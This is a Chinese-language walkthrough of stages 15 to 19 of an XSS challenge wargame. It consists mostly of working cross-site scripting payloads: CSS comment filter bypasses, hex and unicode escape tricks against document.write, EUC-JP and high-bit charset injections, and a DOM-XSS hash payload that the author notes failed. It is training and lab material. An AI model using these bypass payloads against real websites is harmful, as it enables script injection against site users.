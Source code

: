 `Hint: s/(url|script|eval|expression)/xxx/ig;`

过滤了 url 和 expression, 能用 css 的注释绕过.

`background:ur/*xss*/l(javascript:alert(document.domain));`

`x:express/*xss*/ion(alert(document.domain));`

## Stage 15

`Hint: document.write();`

提交后发现尖括号等字符都被转义了, 查看源代码发现是调用 `document.write()` 进行输出.

注意这里是 JavaScript 的执行环境, 那就可以利用 JavaScript 的自解码机制去绕过.

用 `&#x;` 和 `&#;` 好像并不能执行, 换成了反斜杠, 但这里直接输入反斜杠会变成空, 改成 `//` 就行了.

`\\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e`

## Stage 16

`Hint: "document.write();" and "s/\\x/\\\\x/ig;"`

这里用上一题的 payload 并不能成功执行.

编码成 unicode 即可绕过, 反斜杠同样要输入两次.

`\\u003cscript\\u003ealert(document.domain)\\u003c\\u002fscript\\u003e`

## Stage 17 Stage 18

这两题没做, 直接贴上余大的 payload 吧.

`Hint: multi-byte character`

```
euc-jp 的编码范围:
byte 1 为 8E 时, 为 2 byte 编码, byte 2 范围为 A1-DF
byte 1 范围为 A1-FE 时, 为 2 byte 编码, byte 2 范围为 A1-FE
byte 1 为 8F 时为 3 byte 编码, byte 2 与 byte 3 范围均为 A1-FE
两个表单元素都提交 %A7 闭合最后的双引号, 查看源码成功了, 为什么 UI 上去没成功? 无奈直接在地址栏: javascript:alert(document.domain);
现在发现原来是浏览器版本问题, 别用 IE8 了过这个.

```

`p1=1%A7&p2=+onmouseover%3Dalert%28document.domain%29%3B+%A7`

`Hint: us-ascii high bit issue`

```
41-5A, 61-7A (若含数字与符号, 则为 21-7E)
同样别用 IE8, 这些漏洞已经在 IE8 中修补了.
```

`p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE`

## Stage 19

`Hint: Twitter DOM-XSS`

payload

`#!javascript&#58;alert(document.domain);`

复现失败.